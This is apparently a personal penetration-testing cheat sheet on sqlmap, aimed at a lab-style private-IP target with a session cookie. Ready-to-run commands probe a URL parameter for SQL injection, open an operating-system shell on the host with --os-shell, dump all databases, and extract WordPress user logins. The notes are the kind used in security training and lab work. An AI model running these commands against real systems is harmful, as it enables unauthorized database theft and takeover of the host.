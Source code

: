# SQL Map

Use sqlmap to test a URL parameter for SQLi vulnerability

```bash
# note that here we're providing a cookie too, reqd for auth in this case
sqlmap -u 'http://10.123.32.1/dashboard.php?search=dummyparam' --cookie="PHPSESSID=cbu4s4g076c6hvgn9tq2jn8a4t"
```

Use sqlmap to try and pop a shell on the host

```bash
sqlmap -u 'http://10.123.32.1/dashboard.php?search=dummyparam' --cookie="PHPSESSID=cbu4s4g076c6hvgn9tq2jn8a4t" --os-shell
```

Dump contents of db, excluding the sstem tables since they usually never change in a way that's meaningful to us

```bash
sqlmap -u 'http://10.123.32.1/dashboard.php?search=dummyparam' --cookie="PHPSESSID=cbu4s4g076c6hvgn9tq2jn8a4t" --dump-all --exclude-sysdbs
```

If there's no way of directly extracting data, this will be done using a UNION-SLEEP query to brute force every single value/string - will take a LONG TIME!

If we know the schema, we can speed things up by specifying the column, table and db names (column and table optional). e.g. to dump the usernames from a WordPress blog db -

```bash
sqlmap -u 'http://10.123.32.1/dashboard.php?search=dummyparam' --cookie="PHPSESSID=cbu4s4g076c6hvgn9tq2jn8a4t" --dump -C user_login -T wp_users -D blog
```

# SQLMap Over Websockets

This article talks through creating a lightweight proxy server to receive queries and pass them to sqlmap

https://francesco-pastore.medium.com/sqlmap-over-websockets-353cdcd9a7ab